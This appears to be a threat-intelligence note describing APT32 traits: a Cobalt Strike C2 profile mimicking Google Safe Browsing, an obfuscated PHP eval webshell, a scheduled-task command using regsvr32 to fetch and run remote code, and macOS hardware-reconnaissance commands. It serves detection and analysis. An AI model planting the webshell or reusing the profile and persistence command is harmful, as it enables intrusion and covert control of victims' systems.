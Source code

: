 # APT32

## Features

1. When using Cobalt Strike for RAT, it is customary to use the configuration file to simulate Google's secure browsing service, but the configuration file has been exposed in Github.

```profile
#
# Safebrowsing Comms profile
#   https://code.google.com/p/google-safe-browsing/wiki/SafeBrowsingDesign
#
# Author: @harmj0y
#

set sleeptime "30000"; # Use a 30s interval
set jitter    "20"; # 20% jitter
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";

http-get {

    # change/randomize this as you wish
    set uri "/safebrowsing/rd/CltOb12nLW1IbHehcmUtd2hUdmFzEBAY7-0KIOkUDC7h2";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        header "Accept-Encoding" "gzip, deflate";

        metadata {
            netbios;
            prepend "PREF=ID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/vnd.google.safebrowsing-chunk";
        header "X-Content-Type-Options" "nosniff";
        header "Content-Encoding" "gzip";
        header "X-XSS-Protection" "1; mode=block";
        header "X-Frame-Options" "SAMEORIGIN";
        header "Cache-Control" "public,max-age=172800";
        header "Age" "1222";
        header "Alternate-Protocol" "80:quic";

        output {
            print;
        }
    }
}

http-post {

    set uri "/safebrowsing/rd/CINnu27nLO8hbHdfgmUtc2ihdmFyEAcY4";

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        header "Accept-Encoding" "gzip, deflate";

        id {
            netbios;
            prepend "U=779b64e1a7ed737a";
            prepend "PREF=ID=";
            header "Cookie";
        }

        output {
            print;
        }
    }

    server {
        header "Content-Type" "application/vnd.google.safebrowsing-chunk";
        header "X-Content-Type-Options" "nosniff";
        header "Content-Encoding" "gzip";
        header "X-XSS-Protection" "1; mode=block";
        header "X-Frame-Options" "SAMEORIGIN";
        header "Cache-Control" "public,max-age=172800";
        header "Age" "1222";
        header "Alternate-Protocol" "80:quic";
        output {
            print;
        }
    }
}
```

2. The webshell that uploads PHP files on the victim's website is intended to execute commands on the running Web server.

```php
if(@$_POST['Variable 1']&&@md5(md5($_POST['Variable 2']))=='<MD5 HASH>') {
$x="\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65";
@eval($x($_POST['Variable 1']));
exit();
```

3. The commands executed by the persistence script built when building phishing messages can also be used as characteristics.

```bash
schtasks /create /sc MINUTE /tn ""Power Efficiency Diagnostics"" /tr ""\""regsvr32.exe\"" /s /n /u /i: \""h\""t\""t\""p://IP:80/download/microsoftv.jpg scrobj.dll"" /mo 15 /F
```

4. Mac OS backdoor will call multiple system commands to obtain information.

```bash
ioreg -l | grep -e "Manufacturer"  //Obtain manufacturer information
sysctl hw.model  //Get model
system_profiler SPHardwareDataType 2>/dev/null | awk ‘/Boot ROM Version/ {split($0, line, “:”);printf(“%s”, line[2]);}
//Specified model of detection system
system_profiler SPHardwareDataType 2>/dev/null | awk '/Processor / {split($0,line,":"); printf("%s",line[2]);}'
machdep.cpu.brand_string
//Collect processor information
system_profiler SPHardwareDataType 2>/dev/null | awk '/Memory/ {split($0,line, ":"); printf("%s", line[2]);}'
//Collect memory information
ioreg -rd1 -c IOPlatformExpertDevice | awk '/IOPlatformSerialNumber/ { split($0, line, "\""); printf("%s", line[4]); }'
//Retrieve the serial number of the device
```
